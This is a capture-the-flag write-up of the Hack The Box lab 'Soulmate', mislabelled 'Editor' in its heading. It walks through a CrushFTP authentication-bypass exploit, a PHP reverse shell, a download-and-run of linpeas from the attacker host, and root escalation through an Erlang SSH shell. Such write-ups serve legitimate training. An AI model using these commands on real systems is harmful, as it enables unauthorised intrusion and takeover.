




# 📝 Write-up: Editor (Hack The Box)


**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86` (add to `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate is an easy Linux machine. Key steps:

* Initial access via **an authentication vulnerability in CrushFTP (versions prior to 11.3.1)** — CVE-2025-31161 (or CVE-2025-2825, PoC).
* Horizontal pivot: reusing a password found in configuration.
* Privilege escalation to root via a misconfigured Erlang/OTP SSH daemon.

---

## 🔒 Prerequisites / Notes

* This write-up is for the HTB CTF/lab environment — **do not run these techniques against production systems**.
* In my examples `soulmate.htb` resolves to `10.10.11.86`. Add to `/etc/hosts`:

```bash
# on the attacking machine
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* I removed obvious placeholders and pointed where to replace values: `<YOUR_IP>` — your attacking machine IP for reverse shells.

---

## 🔍 Reconnaissance

Start with an `nmap` scan:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Example output (trimmed):

```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — port 80

* Visiting [http://soulmate.htb](http://soulmate.htb) shows a dating site.
* Ran `ffuf` to discover directories — results:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```

* Attempts to log in using SQL injections produced odd server behavior.
  

---

### 🌐 Port 20 — FTP

* Direct connection to port `20` failed.
* Ran `ffuf` to discover subdomains:

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

* Result:

```
ftp.soulmate.htb [Status: 302 Redirect]
```

Add to `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

### ⚡ Port 20 — CrushFTP Version: 11.3.0_2

* Found a web interface with CrushFTP version displayed. Public PoCs exist for this version: `crushftp-CVE-2025-2825` and `CVE-2025-31161`.

* Using `crushftp-CVE-2025-2825` I was able to enumerate admin panel users.
  

* Using CVE-2025-31161 I created a new user as root without authentication:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```

* Logged in as `xss`.
  

* On `http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` I found a list of users. I changed passwords and logged in as one of them — `ben` had interesting directories:

```
/IT/ – IT files
/ben/ – user home directory
/webProd/ – web production directory (upload target)
```

* Uploaded `monkey.php` into `webProd` for a reverse shell. On the attacking machine started `nc -lnvp 4444`, then visited `http://soulmate.htb/monkey.php` and got a reverse shell.

---

## Getting the reverse shell

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

---

## System enumeration

* For convenience, spun up a simple HTTP server on the attacker:

```bash
python3 -m http.server 8000
```

* On the target downloaded and ran `linpeas.sh`:

```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

---

### Found an interesting process

```
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* Inside the script I found credentials for `ben`:

```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

---

### Getting user.txt

* SSHed to the box using `ben`'s credentials:

```bash
ssh ben@soulmate
Password: HouseH0ldings998
```

* User flag:

```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

---

## Privilege escalation to root

* Checked sudo rights:

```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

---

### Found suspicious service on port 2222

* Active ports revealed a service on `2222` — an Erlang SSH service running as root.

* Tried to SSH locally to that service using `ben`'s credentials:

```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```

* Got an Erlang shell:

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

* From this shell used `os:cmd/1` to run system commands and discovered it was running as root:

```erlang
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

* Read `root.txt` from the shell:

```erlang
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```



---

## Conclusion

"Soulmate" on Hack The Box is a great machine for beginners. It lets you practice web exploitation, reverse shells and privilege escalation techniques.

Thanks for reading. I hope this guide helps you tackle other boxes on the platform.
